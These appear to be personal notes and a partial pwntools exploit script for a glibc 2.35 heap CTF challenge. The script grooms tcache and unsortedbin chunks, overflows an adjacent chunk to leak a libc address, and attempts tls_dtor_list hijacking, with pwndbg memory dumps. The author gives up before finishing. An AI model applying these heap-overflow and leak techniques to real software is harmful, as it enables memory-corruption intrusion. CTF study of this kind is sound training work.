 ```py
for i in range(8):
    add_record(0x100, b"a") # chunk_pair 0 - 7. Add 8 records which size > 0x80 to delete later to get unsortedbin
add_record(0x100, b"a")     # chunk_pair 8. Add one more, closest to the Top chunk, prevent merging 
for i in range(8):          
    delete_record(i)        # delete 8 records, first 7 goes to tcachebin, last one is in unsortedbin
add_record(0x100, b"a")     # chunk_pair 0, it was previously chunk_pair 7. Now it is below (at a lower address) chunk_pair 8 

 
payload = flat(
    b"A" * 0x100,
    0,
    0x21,
    0x1,
    0x1000
)
add_record(0x100, b"b")     # chunk_pair 1, it was previously chunk_pair 6, now it is below chunk_pair 0

edit_record(1, 0x200, payload) # buffer goes up to higher address, overwrite chunk_pair 0 which is right above, by overflowing 0x100 byte size with 0x200 of bytes

gdb.attach(p, s)
print_record() # leak the addresses 

# parse the leaked glibc address 
leak = p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00') 
leak = u64(leak)
print(hex(leak))

# calculating the libc base address
libc.address = leak - 0x219ce0
print(hex(libc.address)) # got it! It is correct. Sample: 0x7f7935000000

tls = # ???  Sample: 0x7f79353ec740 (from pwndbg)
```
# leaking tls address 
Now here is the problem:
```py
tls = libc.address # Sample: 0x7f7935  {xyz}  740
```
we don't know what is `xyz`
## Bruteforce
since it goes from probably `000` to `xyz`, we can probably bruteforce it.
But what is the error message?   
Either invalid address accessing or...  
Since we are doing `tls_dtor_list hijacking`, we can perhaps bruteforce with scenarios of not getting the intended result
~~damn I am feeling alert, calm and focused right now, love it~~
~~tonight write flashcards of compilation of vulnerabilities~~
## Overflow the heap with more bytes
```py
payload = flat(
    b"A" * 0x100,
    0,
    0x21,
    0x1,
    0x1000
)
add_record(0x100, b"b")     # chunk_pair 1, it was previously chunk_pair 6, now it is below chunk_pair 0

edit_record(1, 0x200, payload)
```
here maybe overflowing with more bytes would work, but like huge ton of bytes since the offset between heap - `0x55eb408a5000` and `0x7f79353ec000` is a lot
```
0x55eb408a5000     0x55eb408c6000 rw-p    21000      0 [heap]
    0x7f7935000000     0x7f7935028000 r--p    28000      0 /home/kali/Desktop/CTF/MercuryBlast_2.35/libc.so.6
    0x7f7935028000     0x7f79351bd000 r-xp   195000  28000 /home/kali/Desktop/CTF/MercuryBlast_2.35/libc.so.6
    0x7f79351bd000     0x7f7935215000 r--p    58000 1bd000 /home/kali/Desktop/CTF/MercuryBlast_2.35/libc.so.6
    0x7f7935215000     0x7f7935219000 r--p     4000 214000 /home/kali/Desktop/CTF/MercuryBlast_2.35/libc.so.6
    0x7f7935219000     0x7f793521b000 rw-p     2000 218000 /home/kali/Desktop/CTF/MercuryBlast_2.35/libc.so.6
    0x7f793521b000     0x7f7935228000 rw-p     d000      0 [anon_7f793521b]
    0x7f79353ec000     0x7f79353f1000 rw-p     5000      0 [anon_7f79353ec]
```
But since we are able to leak something like `0x7f7935219ce0`, which is something at `0x7f7935219000`, maybe the offset between `0x7f79353ec000` and `0x7f7935219000` is fixed?! Let's see:  

### `1d3`
```
pwndbg> x/x 0x7f79353ec000 - 0x7f7935219000
0x1d3000:	Cannot access memory at address 0x1d3000
```

### `1ee`
```
pwndbg> x/x 0x7ff9a8207000 - 0x7ff9a8019000
0x1ee000:	Cannot access memory at address 0x1ee000
```
nvm...


# Let take a look at the addresses first 
```
pwndbg> tele 0x7ff3aebd36e8 20
00:0000│  0x7ff3aebd36e8 ◂— 0
01:0008│  0x7ff3aebd36f0 ◂— 0
02:0010│  0x7ff3aebd36f8 —▸ 0x55da06afb010 ◂— 5
03:0018│  0x7ff3aebd3700 ◂— 0
04:0020│  0x7ff3aebd3708 —▸ 0x7ff3aea19c80 ◂— 0
05:0028│  0x7ff3aebd3710 ◂— 0
... ↓     5 skipped
0b:0058│  0x7ff3aebd3740 ◂— 0x7ff3aebd3740
0c:0060│  0x7ff3aebd3748 —▸ 0x7ff3aebd4160 ◂— 1
0d:0068│  0x7ff3aebd3750 —▸ 0x7ff3aebd3740 ◂— 0x7ff3aebd3740
0e:0070│  0x7ff3aebd3758 ◂— 0
0f:0078│  0x7ff3aebd3760 ◂— 0
10:0080│  0x7ff3aebd3768 ◂— 0x383e20e4db573e00
11:0088│  0x7ff3aebd3770 ◂— 0xb0beb24c342f373
12:0090│  0x7ff3aebd3778 ◂— 0
13:0098│  0x7ff3aebd3780 ◂— 0
```
`00:0000│  0x7ff3aebd36e8 ◂— 0` is fs:[-0x58], what we need to overwrite
`0b:0058│  0x7ff3aebd3740 ◂— 0x7ff3aebd3740` is the base of fs, fs:[0x0]

I give up, can't brute force

